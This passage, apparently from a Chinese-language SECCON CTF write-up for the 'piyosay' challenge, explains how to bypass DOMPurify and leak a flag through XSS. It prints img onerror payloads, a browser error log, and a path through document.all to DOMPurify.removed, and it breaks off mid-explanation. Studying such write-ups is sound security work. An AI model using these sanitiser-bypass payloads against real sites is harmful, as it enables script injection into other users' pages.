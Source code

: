 这样flag会作为script标签的内容会被sanitize掉

这样就可以把flag alert出来了

```
SECCON{<img src="}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n<script>SECCON{dummy}
```

但是这样还是不够，因为这时候浏览器console里会出现

```
Uncaught TypeError: Cannot read properties of undefined (reading 'text')
    at HTMLImageElement.onerror (http://piyosay.seccon.games:3000/result?emoji=emojis%2Fchildren%2F3%2FinnerHTML&message=SECCON{%3Cimg%20src=%22}%3Cimg%20src=1%20onerror=alert(:3000/DOMPurify.removed[0].element.text)//%22%3E\n%3Cscript%3ESECCON{dummy}:1:36)
```

这时候看一下DOMPurify.removed

```
> DOMPurify.removed[0]
{attribute: onerror, from: img}
```

这是因为在alert的时候第二次sanitize已经执行完了，所以必须要让flag在第二次sanitize的时候也被删掉，在第二次innerHTML赋值后再进行xss。

但是如何在第二次sanitize的时候拿到removed对象呢？需要注意到还有一个参数emoji没有用到。

看下emoji的获取过程

```js
const get = (path) => {
    return path.split("/").reduce((obj, key) => obj[key], document.all);
};
```

这里提供了访问对象的方法，可以通过这种方式拿到`DOMPurify.removed`

```
document.all[0].ownerDocument.defaultView.DOMPurify.removed[0].element.text
```


可以构造emoji为

```
0/ownerDocument/defaultView/DOMPurify/removed/0/element/text
```

那么如何让xss的sink在第二次innerHTML赋值后才出现呢？

当然也是利用emoji，由于emoji是会被替换成flag的，可以把之前构造的

```
SECCON{<img src="}<img src=1 onerror=alert(1)//">
```

前面的部分换成emoji，变成

````
{{emoji}}ECCON{<img src="}<img src=1 onerror=alert(1)//">
````
